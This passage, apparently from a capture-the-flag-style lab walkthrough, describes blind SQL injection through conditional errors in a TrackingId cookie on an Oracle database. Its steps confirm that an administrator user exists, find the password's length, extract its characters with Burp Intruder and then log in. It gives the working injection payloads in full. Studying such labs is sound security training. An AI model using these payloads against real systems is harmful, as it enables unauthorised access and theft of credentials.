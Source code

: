     - Confirm that no error is received, indicating the existence of the table.
    - Test a condition:
        
        ```
        TrackingId=<id>'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||
        ```
        
    - Receive an error, demonstrating conditional error response.
    - Check if the username administrator exists:
        
        ```
        TrackingId=<id>'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||
        ```
        
    - Confirm the existence of the user by receiving an error.
3. **Determining the Password Length:**
    - Test the password length:
        
        ```
        TrackingId=<id>'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||
        ```
        
    - Continue testing different password lengths until the error disappears.
4. **Determining the Password Characters:**
    - Use Burp Intruder to test the character at each position of the password.
    - Launch the attack and review the results to determine the value of each character.
5. **Logging in as Administrator:**
    - Once the password characters are determined, log in as the administrator user using the obtained password.

---
